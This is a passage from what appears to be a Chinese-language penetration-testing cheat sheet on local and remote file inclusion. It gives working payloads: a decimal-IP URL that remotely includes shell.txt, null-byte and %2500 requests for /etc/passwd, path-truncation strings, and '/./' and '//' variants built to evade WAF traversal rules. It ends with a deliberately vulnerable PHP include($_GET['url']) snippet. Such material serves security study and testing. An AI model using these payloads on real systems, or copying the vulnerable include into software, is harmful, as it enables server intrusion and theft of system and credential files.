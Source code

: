 远程包含时如果服务端过滤了`.`的时候，我们可以将远程包含的地址转换成十进制，以此来绕过检测。

`http://2130706433/shell.txt`
等同于
`http://127.0.0.1/shell.txt`

*	路径泄漏

上传时用Burpsuite修改上传路径为泄漏的路径

# 与扩展战斗ing

## 1) 空字节
添加终止字符串的空字节

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500	%的url编码为%25
```

## 2) 截断
通过创建长字符串来截断扩展,利用操作系统对目录最大长度的限制，可以不需要0字节而达到截断的目的。目录字符串在window下256字节、linux下4096字节时会达到最大值，最大值长度之后的字符将被丢弃。
我们可以利用"./"的方式即可构造出超长目录字符串:

#### 2.1) 相对路径的绕过

写WAF文件包含规则时，如果检测单一的”../”，误报会非常多，所以WAF文件包含规则通常会检测连续的“../"。根据vfs解析路径的语法，解析到“//”文件路径不变，解析到“/./”文件路径依然。 通过避免连续的"../"，从而绕过WAF文件包含规则。

```
Eg: ././..///./.././/../etc//passwd，它等价于../../../etc/passwd。
```

#### 2.2) 绝对路径的绕过

WAF没有考虑到路径中插入“/./”、“//”对于vfs解析路径是等价的，导致可被绕过。例如 /etc/./passwd 与 /etc/passwd 是等价的。还可以通过组合“/./”、“//”进行绕过，

```
eg. /etc///.//././/passwd
```

```
././././././././././././././././abc
```

```
////////////////////////abc
```

***

```
<?php
  include($_GET['url']);
 ?>

```
